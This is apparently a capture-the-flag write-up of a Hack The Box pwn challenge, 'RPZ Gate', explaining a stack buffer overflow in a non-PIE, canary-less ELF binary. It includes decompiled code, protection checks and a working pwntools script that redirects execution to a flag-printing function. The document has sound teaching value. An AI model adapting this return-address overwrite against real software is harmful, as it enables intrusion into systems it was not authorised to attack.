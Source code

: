 ```yaml
---
title:  "[CTF] RPZ Gate (ELF 64-bit Buffer overflow)"
categories: [CTF, HTB, Pwn]
---
```


The challenge application is an ELF 64-bit binary, dynamically linked with symbols, not stripped, and without PIE support:

```bash
$ file rpz_gate_1 
rpz_gate_1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=c1841eae896ef740117e323be7791a140d658837, for GNU/Linux 3.2.0, not stripped
```

In terms of security protections, stack is not executable, but stack canaries are not used, and no PIE:

```bash
gef➤  checksec 
[+] checksec for '/mnt/hgfs/CTF-apr-23/pwn_gate1/challenge/rpz_gate_1'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Full
```

The application looks very simple, with an interface printing some ASCII map and a request for user input (interesting!):
```
Show map? (y/n): y
 
===========================================
#                              🦍  |---|  #
#                              🦖  | F |  #
#                              🦍  |---|  #
#   (You)                      🦖  | I |  #
>    🐼                        🦍  |---|  #
>                              🦖  | N |  #
>                              🦍  |---|  #
> (Friend)                     🦖  | I |  #
>    🐒                        🦍  |---|  #
#                              🦖  | S |  #
#                              🦍  |---|  #
#                              🦖  | H |  #
#                              🦍  |---|  #
===========================================

To win this challenge and earn the first key, you must finish the race!
It's that simple! If you know how to do it, let's race!

1. Race
2. Quit

>> 1

In the scoreboard you will be shown as a Panda.

Do you want to enter a custom nickname? (y/n): yyy

Good luck!
```

The decompiled code from Ghidra doesn’t show any obvious reference to the flag being accessed: 

```c
undefined8 main(void) 
{
  undefined8 local_18;
  undefined8 local_10;
  
  setup();
  system("clear");
  fwrite("Show map? (y/n): ",1,0x11,stdout);
  local_18 = 0;
  local_10 = 0;
  fgets((char *)&local_18,3,stdin);
  if (((char)local_18 == 'y') || ((char)local_18 == 'Y')) {
    puts(&map);
  }
  else {
    putchar(10);
  }
  fwrite("To win this challenge and earn the first key, you must finish the race!\nIt\'s that simple ! If you know how to do it, let\'s race!\n\n"
         ,1,0x81,stdout);
  memset(&local_18,0,0x10);
  fwrite("1. Race\n2. Quit\n\n>> ",1,0x14,stdout);
  fgets((char *)&local_18,3,stdin);
  if ((char)local_18 == '1') {
    putchar(10);
    fwrite("In the scoreboard you will be shown as a Panda.\n\nDo you want to enter a custom nicknam e? (y/n): "
           ,1,0x60,stdout);
    memset(&local_18,0,0x10);
 fgets((char *)&local_18,0x1e,stdin);
    fwrite("\nGood luck!\n",1,0xc,stdout);
    return 0;
  }
  puts("\nI guess you need to take a break first.. Goodbye!\n");

  exit(0x16);
}
```

But if we check the strings from the application, the flag is read and displayed in a different function:

```c
void goal(void)
{
  size_t sVar1;
  ssize_t sVar2;
  char flagChar;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  int flagFd;
  ulong local_10;
  
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  local_10 = 0;
  while( true ) {
    sVar1 = strlen(&map);
    if (sVar1 <= local_10) break;
    if ((&map)[local_10] == '>') {
      (&map)[local_10] = 0x20;
    }
    local_10 = local_10 + 1;
  }
  fputs(&map,stdout);
  fwrite("You found the secret entrance!\n\nYou won the race!\n\nHere is your key: ",1,0x45,stdout);
 flagFd = open("./flag.txt",0);
  if (flagFd < 0) {
    perror("Error opening flag.txt, please contact an Administrator.\n");
    exit(1);
  }
  while( true ) {
    sVar2 = read(flagFd, &flagChar, 1);
    if (sVar2 < 1) break;
    fputc((int)flagChar,stdout);
  }
  close(flagFd);
  return;
}
```

So we need a way to get to the goal function!

## Vulnerability

Although ASLR might be enabled on the target machine, the binary is compiled without support for position independent code, so the operating system won’t be able to relocate it anyways. When ASLR was introduced, it randomised placement of stack, heap, and shared libraries. The placement of non-PIE main executable code could not be randomised.

We can confirm that shared libraries would be randomised:

```bash
$ ldd rpz_gate_1
linux-vdso.so.1 (0x00007ffedaf50000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fbb3e468000)
./glibc/ld-linux-x86-64.so.2 => /lib64/ld-linux-x86-64.so.2 (0x00007fbb3e661000)

$ ldd rpz_gate_1
linux-vdso.so.1 (0x00007ffc2cfee000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f091f31f000)
./glibc/ld-linux-x86-64.so.2 => /lib64/ld-linux-x86-64.so.2 (0x00007f091f518000)
```

The address of libc.so.6 is differend everytime we check. But the executable code is always palced at the same address, as we can confirm with GEF:

```bash
$ python pwn_gate_local.py                     
[*] '/mnt/hgfs/CTF-apr-23/pwn_gate1/rpz_gate_1'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
```

## Exploitation

With this in mind, we can easily get the address of the `goal` function:

```
0x00401316 -> goal
```

Since there are no stack canaries, and we have an obvious  stack based buffer overflow towards the end of the program, we can use that to jump to the goal function. `local_18` variable is stored on the stack and can hold 8 bytes but `0x1e` are actually being read:

```c
    fgets((char *)&local_18,0x1e,stdin);
```

The full Python local exploitation script based on [pwntools](http://docs.pwntools.com/en/stable/) below:

```python
import struct 
from pwn import *

bin_path = '/mnt/hgfs/CTF-apr-23/pwn_gate1/challenge/rpz_gate_1'
e = ELF(bin_path)

print("[*] %#x -> main" % e.symbols['main'])
print("[*] %#x -> goal" % e.symbols['goal'])

# Print map
io = process(bin_path)
#print(io.recvrepeat(2))

# Instructions
io.send(b'n\n')
#print(io.recvrepeat(2))

# Custom nickname prompt
io.send(b'1\n')
#print(io.recvrepeat(2))

buf  = b''
buf += b'\x90'*24
buf += struct.pack('<Q', e.symbols['goal'])

io.send(buf)
recv_buf = io.recvrepeat(2).decode("utf-8").strip()
flag = recv_buf.split('\n')[-1] 
print(flag)
```

As expected, we can jump into the `goal` function by overwriting the return address from the `main` function:

```bash
$ python ../pwn_gate_local.py
[*] '/mnt/hgfs/CTF-apr-23/pwn_gate1/challenge/rpz_gate_1'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
[*] 0x401494 -> main
[*] 0x401316 -> goal
[+] Starting local process '/mnt/hgfs/CTF-apr-23/pwn_gate1/challenge/rpz_gate_1': pid 3811948
Here is your key: HTB{f4k3_fl4g_4_t35t1ng}
```

## References

* [ELF, PIE ASLR and everything in between, specifically within Linux](https://stackoverflow.com/questions/38189169/elf-pie-aslr-and-everything-in-between-specifically-within-linux)
